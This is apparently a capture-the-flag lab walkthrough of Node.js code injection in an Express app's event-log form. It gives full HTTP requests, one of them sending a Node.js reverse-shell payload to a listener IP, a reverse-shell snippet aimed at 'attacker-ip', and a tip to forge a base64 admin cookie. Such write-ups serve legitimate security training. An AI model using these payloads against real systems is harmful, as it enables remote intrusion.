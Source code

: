 # Node.Js Command Injection

{% embed url="https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/" %}

#### Weak authentication

The next interesting find is the `add technical details/code if required` Event Message. Considering that this is a NodeJS application, it might be possible to inject Javascript Code.

```
3000/tcp  open  http    syn-ack ttl 63 Node.js (Express middleware)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

To test this, we'll send a simple `1+1` operation as an "Event Message".

Request Used:

```html
POST /logs/new HTTP/1.1
Host: 192.168.135.110:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://192.168.135.110:3000
Connection: close
Referer: http://192.168.135.110:3000/logs/
Cookie: connect.sid=s%3AmSgkU3koIQeob1Pioo6GSNTjGvc71M7v.ehFLVLDZWnWSLoKEcRe%2B4BWhaQz7TCQJ9dub4Xc3Cac; userLevel=YWRtaW4=
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=khjkhk&msg=2%2B2
```

Notice the userLevel cookie how we can exploit it by changing it in base64.

![Send event](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG\_Practice\_41\_image\_1\_xEnsZaqK.png)       Send event

After reviewing the resulting stored message, we confirm that it actually saved `2`.

![Event result](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG\_Practice\_41\_image\_2\_wGgEOnE8.png)

Since we already saw that the website was vulnerable to NodeJS command injection. We copied the following line of code.&#x20;

```
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(80, "attacker-ip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

Changing the script to connect to port 3000 and changing out listening host to our IP. Would result in a reverse shell.

Request Used:&#x20;

```
POST /logs/new HTTP/1.1
Host: 192.168.135.110:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 344
Origin: http://192.168.135.110:3000
Connection: close
Referer: http://192.168.135.110:3000/logs/
Cookie: connect.sid=s%3AmSgkU3koIQeob1Pioo6GSNTjGvc71M7v.ehFLVLDZWnWSLoKEcRe%2B4BWhaQz7TCQJ9dub4Xc3Cac; userLevel=YWRtaW4=
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=hjb&msg=var+net+%3D+require%28%22net%22%29%2C+sh+%3D+require%28%22child_process%22%29.exec%28%22%2Fbin%2Fbash%22%29%3B%0D%0Avar+client+%3D+new+net.Socket%28%29%3B%0D%0Aclient.connect%283000%2C+%22192.168.49.135%22%2C+function%28%29%7Bclient.pipe%28sh.stdin%29%3Bsh.stdout.pipe%28client%29%3B%0D%0Ash.stderr.pipe%28client%29%3B%7D%29%3B
```

{% embed url="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FTn82w6MG57eLAc1baUIU%2Fuploads%2FQSRhxvboymkdv7VOUsBa%2F2022-08-02_10-54.png?alt=media&token=a971fd51-de6a-465e-8914-c12e67891ff6" %}
